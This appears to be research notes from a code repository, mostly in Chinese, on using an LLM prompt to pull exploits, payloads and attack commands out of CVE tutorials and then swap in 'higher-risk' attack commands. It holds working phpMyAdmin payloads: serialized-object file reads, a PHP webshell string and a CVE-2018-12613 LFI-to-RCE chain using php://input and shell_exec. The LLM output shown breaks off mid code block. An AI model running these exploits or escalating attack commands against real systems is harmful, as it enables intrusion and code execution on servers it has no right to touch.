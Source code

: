 # 250716

研究的目标是要从一个网页教程中总结出三个关键信息，然后基于这三个信息做进一步的渗透利用，如修改attack_command，执行更高危的攻击操作

- input：一个/多个网页CVE漏洞的exploit教程
- output

  - exploit:  能够触发或利用漏洞的注入点
  - payloads：包含命令注入的攻击脚本，如木马程序、reverse shell
  - attack_command：真实想在目标靶机执行的操作
- example 1

  ```http
  POST /scripts/setup.php HTTP/1.1
  Host: your-ip:8080
  Accept-Encoding: gzip, deflate
  Accept: */*
  Accept-Language: en
  User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
  Connection: close
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 80

  action=test&configuration=O:10:"PMA_Config":1:{s:6:"source",s:11:"/etc/passwd";}

  ```

  ```json
  {
    "exploits": [
      "POST /scripts/setup.php?action=test",
      "POST body parameter: configuration=<serialized PMA_Config>"
    ],
    "payloads": [
      "O:10:\"PMA_Config\":1:{s:6:\"source\";s:11:\"/etc/passwd\";}",
      "O:10:\"PMA_Config\":1:{s:6:\"source\";s:XX:\"<?php system($_GET['cmd']); ?>\";}"
    ],
    "attack_commands": [
      "/etc/passwd",
      "execute system($_GET['cmd']) (RCE)"
    ]
  }

  ```
- example 2
  link: [https://github.com/vulhub/vulhub/blob/master/phpmyadmin/CVE-2018-12613/README.zh-cn.md]()

  ```json
  {
    "exploits": [
      "GET /index.php?target=db_sql.php%253f/../../../../../../etc/passwd",
      "GET /index.php?target=db_sql.php?/../../../../../../tmp/sess_<session_id>"
    ],
    "payloads": [
      "select '<?php phpinfo()?>'",
      "<?php phpinfo()?> injected into session file"
    ],
    "attack_commands": [
      "read /etc/passwd",
      "execute phpinfo() via session inclusion"
    ]
  }

  ```

## prompt

- 参考论文：Structured Chain-of-Thought Prompting for Code Generation ，TOSEM 2025
  ![My Image](image\250716\1752674818748.png)
- prompt

  ```
  You are a helpful pentest assistant. Please carefully read this web-based tutorial, understand how it triggers or exploits the vulnerability through injection points, and organize the tutorial content in a tree structure format. Make it simple and easy to read for beginners.

  Please note:
  - The task descriptions in the tree structure should be as concise as possible.
  - Necessary details should be written in natural language.
  - Specific attack commands should be marked using bullet points (-) in markdown format.
  - All outputs should be in Markdown format.

  Web tutorial url: {URL}
  Output Example: Pentest Task Tree
  1. Port scanning
    - nmap -sC -sV {port} {target_ip}
    - Services are FTP, SSH, and Web Service.
  2.Perform the testing
    2.1 Test FTP Service
      2.1.1 Test Anonymous Login
      2.1.1.1 Test Anonymous Upload
    2.2 Test SSH Service 
      2.2.1 Brute-force 
    2.3 Test Web Service 
      2.3.1 Directory Enumeration
          2.3.1.1 Find hidden admin
          2.3.2 Injection Identification
  ```
- output

  ```markdown
  # Pentest Task Tree – CVE-2018-12613 (phpMyAdmin LFI → RCE)

  ## 1. Prepare Environment
  ### 1.1 Download and launch vulnerable phpMyAdmin
  - `docker-compose up -d`

  ### 1.2 Access phpMyAdmin service
  - Open browser at `http://your-ip:8080`

  ## 2. Understand the Vulnerability
  ### 2.1 Version affected
  phpMyAdmin ≤ 4.8.1 has an improper input validation on the `target` parameter in `index.php`.

  ### 2.2 Type of vulnerability
  Allows **Local File Inclusion (LFI)**, including special streams like `php://input`.

  ## 3. Confirm Local File Inclusion (LFI)
  ### 3.1 Attempt to include sensitive file
  - `http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../../etc/passwd`

  ### 3.2 Expected result
  Page should display contents of `/etc/passwd`.

  ## 4. Achieve Remote Code Execution (RCE)
  ### 4.1 Use `php://input` for payload injection
  Craft a URL to include the `php://input` stream:
  - `http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../../php://input`

  ### 4.2 Send POST payload with PHP code
  Send a POST request that includes PHP code to execute a system command:
  - 
    ```http
    POST /index.php?target=db_sql.php%253f/../../../../../../../../../php://input HTTP/1.1
    Host: your-ip:8080
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 31

    <?php echo shell_exec("id"); ?>
  ```

